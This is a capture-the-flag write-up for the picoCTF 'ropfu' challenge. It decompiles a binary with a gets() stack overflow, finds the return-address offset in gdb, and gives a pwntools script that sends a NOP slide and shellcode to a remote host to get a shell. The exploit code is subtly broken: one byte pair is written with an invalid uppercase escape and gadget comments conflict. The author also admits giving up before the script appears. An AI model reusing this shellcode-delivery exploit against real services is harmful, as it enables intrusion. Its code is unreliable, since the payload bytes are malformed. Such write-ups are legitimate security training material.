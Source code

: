 ```yaml
---
title: PicoCTF - ropfu
published: 2025-10-27
description: PicoCTF Writeup for ropfu Challenge
tags: [binary exploitation, hard, picoCTF 2022, ROP]
category: CTF Writeup
draft: false
lang: en
---
```


# PicoCTF Writeup - ropfu

PicoCTF Challenge: 
[https://play.picoctf.org/practice/challenge/292?category=6&page=4](https://play.picoctf.org/practice/challenge/292?category=6&page=4)

> ## ropfu
> Author: Sanjay C / LT 'syreal' Jones
> 
> ### Description
> What's ROP?<br>
> Can you exploit the following program to get the flag? Download source.
> ### Hints
> 1st - This is a classic ROP to get a shell<br>
> ### Resources:
> Source Code: [/vuln.c](https://artifacts.picoctf.net/c/44/vuln.c)<br>
> Binary: [/vuln](https://artifacts.picoctf.net/c/44/vuln)<br>

## Decompile

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    int v4; // [esp+0h] [ebp-Ch]

    setvbuf(stdout, 0, 2, 0);
    v4 = getegid();
    setresgid(v4, v4, v4);
    vuln();
    return 0;
}

int vuln()
{
    _BYTE v1[20]; // [esp+0h] [ebp-18h] BYREF

    puts("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!");
    return gets(v1);
}
```

The code above is the decompiled source code from a binary. Let me summarize it more concisely.

```c
int main(int argc, const char **argv, const char **envp)
{
    gid_t effective_group_id;

    setvbuf(stdout, NULL, _IONBF, 0);
    effective_group_id = getegid();
    setresgid(effective_group_id, effective_group_id, effective_group_id);
    vuln();
    return 0;
}

int vuln()
{
    char buffer[20];

    puts("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!");
    return gets(buffer);
}
```

## Analysis

```bash
therustymate-picoctf@webshell:~$ file vuln_3
vuln_3: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=232215a502491a549a155b1a790de97f0c433482, for GNU/Linux 3.2.0, not stripped
```

This program is a simple piece of code that reads input using the vulnerable `gets` function and then returns. As before, I will quickly find the offset that lets us overwrite the return address.

```bash
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/therustymate-picoctf/vuln_3 
warning: Error disabling address space randomization: Operation not permitted
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c

Program received signal SIGSEGV, Segmentation fault.
0x76757473 in ?? ()
(gdb) info registers eip
eip            0x76757473          0x76757473
(gdb) 
```

gdb shows the `EIP` register is currently pointing at `0x76757473`. Converting that back into a string yields the following:

```python
>>> chr(0x76)+chr(0x75)+chr(0x74)+chr(0x73)
'vuts'
```

Since the string "vuts" appears, it indicates that the return address starts from the character **'s'** and spans 4 bytes. The method to calculate the offset is as follows:

```python
>>> len('0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c'.split('stuv')[0])
28
```

Therefore, after 28 bytes of characters, we can hijack the return address.

```bash
therustymate-picoctf@webshell:~$ strings ./vuln_3 | grep "flag"
WARNING: Unsupported flag value(s) of 0x%x in DT_FLAGS_1.
(mode_flags & PRINTF_FORTIFY) != 0
version == NULL || !(flags & DL_LOOKUP_RETURN_NEWEST)
_dl_x86_hwcap_flags
_dl_stack_flags
_dl_x86_cap_flags
```

I searched for functions but couldn't find any additional functions or flag-related information that could be used. This means we must construct a shellcode and develop an RCE exploit that uploads the shellcode directly.

## Exploit Development
```bash
therustymate-picoctf@webshell:~$ checksec --file=./vuln_3
[*] '/home/therustymate-picoctf/vuln_3'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

Using the `checksec` tool to inspect the binary, I confirmed that Stack Canary is active. This means we need to bypass this.

However, unlike our earlier analysis, neither `main` nor `vuln` have a stack canary. The disassembly shows no logic that checks or compares a specific value before returning. Because `abort()` was found, it’s likely used by some other, specific function.

I give up today because my back bones are gone because of this. I will have to see a doctor soon. I will come back tomorrow. (I spent 7-8 hours)

## Exploit
```python
from argparse import ArgumentParser
from pwn import *
import time

def craftPayload(shellcode_path: str):
    fp = open(shellcode_path, "rb")
    shellcode = fp.read()
    fp.close()

    # ROP Gadgets:
    # 0x0805333b : jmp eax

    rop_chain   = struct.pack("<I", 0x0805333b)     # 0x0805333b : jmp eax
    instruction = b"\xFF\XE4"                       # jmp esp
    
    padding = b"A" * (28 - len(instruction))
    nop_slide = b"\x90" * 50

    payload = padding + instruction + rop_chain + nop_slide + shellcode

    return payload

def exploit(target: str, port: int, shellcode_path: str):
    payload = craftPayload(shellcode_path)

    p = remote(str(target), int(port))
    p.recvuntil(b"\n")
    p.sendline(payload)
    p.interactive()

if __name__ == "__main__":
    parser = ArgumentParser(
        prog="PicoCTF ropfu Exploit",
        description="Exploit for the PicoCTF ropfu challenge",
    )
    parser.add_argument(
        "-t", "--target",
        required=True,
        help="set target IP or URL address",
    )
    parser.add_argument(
        "-p", "--port",
        required=True,
        help="set target port",
    )
    parser.add_argument(
        "-s", "--shellcode",
        required=True,
        help="set shellcode file path",
    )
    
    args = parser.parse_args()

    TARGET_HOST : str       = str(args.target)
    TARGET_PORT : int       = int(args.port)
    SHELLCODE_PATH : str    = str(args.shellcode)
    exploit(TARGET_HOST, TARGET_PORT, SHELLCODE_PATH)
```